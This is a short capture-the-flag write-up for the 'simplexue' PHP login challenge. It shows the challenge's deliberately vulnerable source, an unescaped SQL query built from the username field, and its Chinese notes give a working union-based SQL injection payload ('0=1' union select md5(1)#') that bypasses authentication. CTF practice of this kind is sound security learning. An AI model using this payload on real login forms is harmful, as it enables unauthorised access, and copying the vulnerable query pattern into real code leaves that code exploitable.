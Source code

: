```html
<html>
<head>
welcome to simplexue
</head>
<body>
<?php


if($_POST[user] && $_POST[pass]) {
	$conn = mysql_connect("********, "*****", "********");
	mysql_select_db("phpformysql") or die("Could not select database");
	if ($conn->connect_error) {
		die("Connection failed: " . mysql_error($conn));
} 
$user = $_POST[user];
$pass = md5($_POST[pass]);

$sql = "select pw from php where user='$user'";
$query = mysql_query($sql);
if (!$query) {
	printf("Error: %s\n", mysql_error($conn));
	exit();
}
$row = mysql_fetch_array($query, MYSQL_ASSOC);
//echo $row["pw"];
  
  if (($row[pw]) && (!strcasecmp($pass, $row[pw]))) {
	echo "<p>Logged in! Key:************** </p>";
}
else {
    echo("<p>Log in failure!</p>");
	
  }
  
  
}

?>
<form method=post action=index.php>
<input type=text name=user value="Username">
<input type=password name=pass value="Password">
<input type=submit>
</form>
</body>
<a href="index.txt">
</html>
```
目標:if (($row[pw]) && (!strcasecmp($pass, $row[pw]))) true  
md5(pass) 可控制  
row[pw]來自sql 所以修改這裡  
user:0=1' union select md5(1)#
* 0=1' 會構成  where user='0=1' 因此回傳false  
* '#' comment out 後面多餘的東西  

password:1  
* password 和 md5()裡的數字一樣即可  
